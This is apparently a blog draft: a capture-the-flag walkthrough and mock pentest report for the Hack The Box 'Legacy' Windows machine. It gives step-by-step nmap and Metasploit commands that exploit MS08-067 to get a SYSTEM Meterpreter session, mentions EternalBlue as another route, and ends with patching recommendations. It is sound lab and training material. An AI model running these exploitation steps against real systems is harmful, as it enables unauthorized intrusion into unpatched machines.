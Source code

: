 ```yaml
---
title: Legacy HTB — Full Walkthrough
published: 2025-06-23
description: A detailed walkthrough of the Legacy HTB Windows machine, covering reconnaissance, exploitation of the MS08-067 vulnerability, post-exploitation, and flag capture.
tags: [HTB, MS08-067, Windows, SMB, Metasploit, CTF]
category: Walkthrough
draft: true
---
```



# Legacy HTB — Exploit MS08-067 Walkthrough

**Difficulty:** Easy

**Platform:** Hack The Box

**Target:** Windows (Legacy machine)

**Objective:** Gain administrative access using the MS08-067 vulnerability and capture the user and root flags.

## 1. Reconnaissance

Perform a full TCP port scan and version enumeration:

```bash
nmap -p- -sV -sC -Pn -T4 legacy.htb  
```

**Findings:**

- SMB services running on ports 139 and 445.
- System vulnerable to MS08-067 (CVE-2008-4250).

Add the target to `/etc/hosts`:

```bash
echo "10.10.10.4 legacy.htb" | sudo tee -a /etc/hosts  
```

## 2. Exploitation with Metasploit

Start Metasploit:

```bash
msfconsole -q  
```

Search for the MS08-067 exploit module:

```bash
search ms08_067  
```

Select and configure the exploit:

```bash
use exploit/windows/smb/ms08_067_netapi  
set RHOSTS 10.10.10.4  
set LHOST <your_ip>  
```

Execute the exploit:

```bash
run  
```

**Result:** Successful exploitation grants a Meterpreter session.

## 3. Post-Exploitation

Verify the user context in the Meterpreter session:

```bash
getuid  
```

**Output:** `NT AUTHORITY\SYSTEM`

Navigate to the user’s desktop to capture the user flag:

```bash
cd "C:\Documents and Settings\john\Desktop"  
cat user.txt  
```

Navigate to the administrator’s desktop to capture the root flag:

```bash
cd "C:\Documents and Settings\Administrator\Desktop"  
cat root.txt  
```

## 4. Additional Vulnerability

The SMB service is also vulnerable to CVE-2017-0144 (EternalBlue), which could be exploited similarly using Metasploit or other tools.

## 5. Mitigation

To prevent exploitation of MS08-067 and similar vulnerabilities:

- Apply the official Microsoft patch for MS08-067.
- Update systems to supported versions and keep them patched.
- Monitor SMB traffic and restrict external access to SMB services.

## Lessons Learned

- Unpatched systems are highly vulnerable to known exploits like MS08-067.
- Metasploit simplifies the exploitation of critical vulnerabilities.
- SMB misconfigurations can expose systems to multiple attack vectors.
- Regular patching and network monitoring are essential for security.

# Penetration Test Report

**Client:** HTB

**Engagement:** Penetration Test - Windows Legacy Machine

**Date:** June 2025

**Consultant:** Hugo Leonor

## 1. Objective

Evaluate the security of the Windows Legacy machine (`legacy.htb`), identifying vulnerabilities that could allow unauthorized access and privilege escalation, culminating in administrative access.

## 2. Scope

- **Target IP:** 10.10.10.4
- **Services:** SMB (ports 139, 445)
- **Objective:** Gain administrative access and capture flags

## 3. Methodology

The approach followed standard penetration testing stages:

- Reconnaissance using Nmap for port and vulnerability scanning
- Exploitation of identified vulnerabilities using Metasploit
- Post-exploitation to verify access level and capture flags
- Identification of additional vulnerabilities and mitigation recommendations

## 4. Summary of Findings

| Stage | Key Result | Impact |
| --- | --- | --- |
| Reconnaissance | SMB ports open, MS08-067 vulnerability identified | Exposure to remote code execution |
| Exploitation | Successful RCE via MS08-067 using Metasploit | Administrative access gained |
| Post-Exploitation | NT AUTHORITY\\SYSTEM access, user and root flags captured | Full system compromise |
| Additional Vulnerability | CVE-2017-0144 (EternalBlue) identified | Potential for alternative exploitation |

## 5. Technical Details

### 5.1 Reconnaissance

Nmap scanning revealed open SMB ports (139, 445) and confirmed the system’s vulnerability to MS08-067, a known remote code execution flaw in the Windows SMB service.

### 5.2 Exploitation

The MS08-067 vulnerability was exploited using Metasploit’s `ms08_067_netapi` module, resulting in a Meterpreter session with SYSTEM privileges.

### 5.3 Post-Exploitation

With SYSTEM access, the user and root flags were retrieved from the respective desktop directories of the `john` and `Administrator` accounts.

### 5.4 Additional Vulnerability

The system was also found vulnerable to EternalBlue (CVE-2017-0144), indicating multiple unpatched flaws in the SMB service.

## 6. Impact and Risks

- **Full System Compromise:** Administrative access allows complete control over the system.
- **Unpatched Vulnerabilities:** MS08-067 and EternalBlue are well-known exploits, easily weaponized by attackers.
- **Exposed SMB Services:** Open SMB ports increase the attack surface, especially if accessible externally.

## 7. Recommendations

- Apply Microsoft’s patches for MS08-067 and CVE-2017-0144.
- Upgrade to a supported Windows version to avoid legacy vulnerabilities.
- Restrict SMB access to trusted networks and disable unnecessary SMB services.
- Implement network monitoring to detect and block exploit attempts.
- Conduct regular vulnerability scans and patch management.